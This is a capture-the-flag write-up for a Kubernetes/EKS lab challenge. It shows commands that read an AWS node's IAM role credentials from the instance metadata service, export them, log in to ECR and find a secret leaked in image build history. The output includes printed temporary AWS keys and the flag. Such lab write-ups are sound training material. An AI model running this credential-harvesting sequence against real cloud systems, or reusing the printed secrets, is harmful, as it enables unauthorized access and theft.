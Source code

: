 ```yaml
---
title: Image Inquisition - eksclustergames | 10 points
date: 2023-12-29 12:00:00 +100
categories: [eksclustergames, ctf, image-inquisition]
tags: [ctf, eksclustergames, image-inquisition]
---
```


>A pod's image holds more than just code. Dive deep into its ECR repository. Inspect the image layers, and uncover the hidden secret. You can also check the required K8s Cheat Sheet for this challenge within this page.
{: .prompt-info } 

If you check permissions, it's listed that we have `list and get pods` permissions. So, let's start with listing the pods.

>You can also check the permission using `kubectl` command as mentioned below.
```bash
root@wiz-eks-challenge:~# kubectl auth can-i list pod
yes
root@wiz-eks-challenge:~# kubectl auth can-i get pod
yes
```
{: .prompt-tip }

### List pods

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS      AGE
accounting-pod-876647f8   1/1     Running   1 (22d ago)   58d
```

As it's only one pod to focus, we can simply start with checking it's image (hint in the challenge description).

### Contianer Image

```bash
root@wiz-eks-challenge:~# kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

It's clear that the image is in ECR so obvisuly we need to run the AWS commands to go ahead.


```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Now that above command returned output for login, we need to use the AWS Instance metadata service (IMDS) to get through it. Let's perform the required steps to setup login and get the Docker image from ECR.

### Instance Metadata Service (IMDS) to get IAM instance credentials

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam/security-credentials
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

### Get credentials

```bash
root@wiz-eks-challenge:~# curl -s 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq
{
  "AccessKeyId": "ASIA2AVYNEVM5QQU66N7",
  "Expiration": "2023-12-29 20:58:18+00:00",
  "SecretAccessKey": "8GFVVYgetRLMjTjjr0mQLLqCF9uNr0S7kSps+Mgn",
  "SessionToken": "FwoGZXIvYXdzEGUaDNIXeVNvbqF/NCkkdSK3AQiqCvidXKUztR2XOKM5t0iLlMLFlbjNiqd6pPjL6NrvTzZJ09e5TNmZ+Td1/mwvfVW9By5Tcrro0UHGTuLANkHR5klulXmAkCayYkiWtVXnKhAf6HMldwygnVX4Pygmd/k+y1lug+M7eeu6yLTUUBUSCkV+Fq0ofue4Bgz4ggxUTdIcu/NthDsVmucZX4AHsXIlCo8gc560vLK1b9P8i2cMIoVLKdeJLBUvxX80mAxsCdj2mZiRAijaybysBjItqjCqxmtmypWSBi/v354O9ziG5LqgzUldsGNBmJD1uOt1DxUs0qVy6VrUvfN/"
}
```

### Set AWS credential ENVs using inline bash command

```bash
root@wiz-eks-challenge:~# JSON="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole)"; export AWS_ACCESS_KEY_ID="$(echo "$JSON" | jq -r .
AccessKeyId)"; export AWS_SECRET_ACCESS_KEY="$(echo "$JSON" | jq -r .SecretAccessKey)";export AWS_SESSION_TOKEN="$(echo "$JSON" | jq -r .SessionToken)";
```

### Confirm permission using `sts:GetCallerIdentity`

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity | jq
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

### Login using AWS cli and Crane

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2023/12/29 20:11:42 logged in via /home/user/.docker/config.json
```

>Pull image from ECR using Crane if you want to use `dive`
```bash
crane pull "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" /tmp/image.tar
```
{: .prompt-tip }

It was mentioned in this Challenge that we need to check the image layers for getting flag. For this, I chose `Crane` as it was mentioned that this tool is already installed else `dive` is also a nice tool for this.

### Check the config of the image

```bash
root@wiz-eks-challenge:~# crane config "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" | grep -i "wiz_eks_challenge"
{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

and the flag is

>wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future}
{: .prompt-info }
